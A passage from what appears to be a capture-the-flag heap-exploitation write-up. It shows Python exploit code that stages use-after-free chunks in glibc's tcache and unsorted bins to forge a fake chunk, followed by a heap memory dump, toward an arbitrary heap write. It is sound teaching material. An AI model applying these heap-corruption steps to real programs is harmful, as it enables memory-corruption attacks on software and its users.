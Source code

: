 This now has a `BCK` and a `FWD` pointer to our `unsorted bin` entries and a `size header`.

Now all there is left is just the ability to hijack an `unsorted bin` entry to point to our faked chunk in the `per-thread cache`, which can then be used to gain `arb heap write`. 


Using the same technique, create a second pair of `UAF` pointers for `0xe0` and `0xf0`, which will soon be used to overwrite the `BCK` and `FWD` pointers to our fake `0x10001` `chunk`:
```python
# Malloc from unsorted to reach our desired place to get 0xe1 and 0xf1 written
unsorted1 = malloc(0x1a8, b'1'*mal_size+p64(0xe1))
unsorted2 = malloc(0x1a8, b'2'*mal_size+p64(0xf1))

# exhaust t-cache for later use
for i in tcache_0x1b0:
    free(i)

free(b1) # 0xe1 chunk entry
free(b2) # 0xf1 chunk entry
```

The heap will now look like the following:
```
0x5578453b0a50	0x0031204452415547	0x0000000000000000	GUARD 1.........
0x5578453b0a60	0x0000000000000000	0x00000000000001b1	................

[...]

0x5578453b0af0	0x3131313131313131	0x00000000000000e1	11111111........
0x5578453b0b00	0x00000005578453b0	0xe192c26dfcaee117	.S.W........m... <-- tcachebins[0xe0][0/1]
0x5578453b0b10	0x3131313131313131	0x3131313131313131	1111111111111111
0x5578453b0b20	0x3131313131313131	0x3131313131313131	1111111111111111
0x5578453b0b30	0x3131313131313131	0x3131313131313131	1111111111111111
0x5578453b0b40	0x3131313131313131	0x3131313131313131	1111111111111111
0x5578453b0b50	0x3131313131313131	0x3131313131313131	1111111111111111
0x5578453b0b60	0x3131313131313131	0x3131313131313131	1111111111111111
0x5578453b0b70	0x3131313131313131	0x3131313131313131	1111111111111111
0x5578453b0b80	0x3131313131313131	0x0000000000000021	11111111!.......
0x5578453b0b90	0x00000005578453b0	0xe192c26dfcaee117	.S.W........m... <-- tcachebins[0x20][0/1]

[...]

0x5578453b0ca0	0x3144314431443144	0x0000000000000021	D1D1D1D1!.......
0x5578453b0cb0	0x0032204452415547	0x0000000000000000	GUARD 2.........
0x5578453b0cc0	0x0000000000000000	0x00000000000001b1	................

[...]

0x5578453b0d50	0x3232323232323232	0x00000000000000f1	22222222........
0x5578453b0d60	0x00000005578453b0	0xe192c26dfcaee117	.S.W........m... <-- tcachebins[0xf0][0/1]
0x5578453b0d70	0x3232323232323232	0x3232323232323232	2222222222222222
0x5578453b0d80	0x3232323232323232	0x3232323232323232	2222222222222222
0x5578453b0d90	0x3232323232323232	0x3232323232323232	2222222222222222
0x5578453b0da0	0x3232323232323232	0x3232323232323232	2222222222222222
0x5578453b0db0	0x3232323232323232	0x3232323232323232	2222222222222222
0x5578453b0dc0	0x3232323232323232	0x3232323232323232	2222222222222222
0x5578453b0dd0	0x3232323232323232	0x3232323232323232	2222222222222222
0x5578453b0de0	0x3232323232323232	0x0000000000000031	222222221.......
0x5578453b0df0	0x00000005578453b0	0xe192c26dfcaee117	.S.W........m... <-- tcachebins[0x30][0/1]

[...]

0x5578453b0f00	0x3244324432443244	0x0000000000000021	D2D2D2D2!.......
0x5578453b0f10	0x0033204452415547	0x0000000000000000	GUARD 3.........
0x5578453b0f20	0x0000000000000000	0x000000000001f0e1	................ <-- Top chunk

```